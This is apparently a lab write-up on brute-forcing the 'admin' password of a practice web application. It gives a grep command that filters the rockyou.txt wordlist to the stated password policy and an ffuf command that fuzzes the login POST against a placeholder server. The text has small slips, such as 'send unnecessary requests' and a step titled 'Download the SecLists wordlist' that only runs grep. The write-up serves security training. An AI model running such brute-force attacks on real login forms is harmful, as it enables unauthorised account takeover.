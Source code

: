 # Brute-Forcing Passwords

### What is the password of the user 'admin'?

In this assessment we already have the user 'admin' and the goal is to get the his password. To accomplish that will use the rockyou.txt wordlist, but tailor the passwords to the application requirements in order to send unnecessary requests.

Password Requirments:

* Contains at least one upper-case character
* Contains at least one lower-case character
* Contains at least one digit
* Minimum length of 10 characters

**Step 1 -** Download the SecLists wordlist:

* {% code overflow="wrap" %}
  ```
  grep '[[:upper:]]' /usr/share/wordlists/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
  ```
  {% endcode %}
* Check your rockyou.txt directory.

**Step 2 -** Intercept the application POST login parameters:

* This can be done through the Inspect Element or with Burp Suite

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3 -** Brute-force the password:

* {% code overflow="wrap" %}
  ```
  ffuf -w ./custom_wordlist.txt -u http://SERVER_IP:SERVER_PORT/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
  ```
  {% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And after a few seconds we manage to get the admin passowrd!
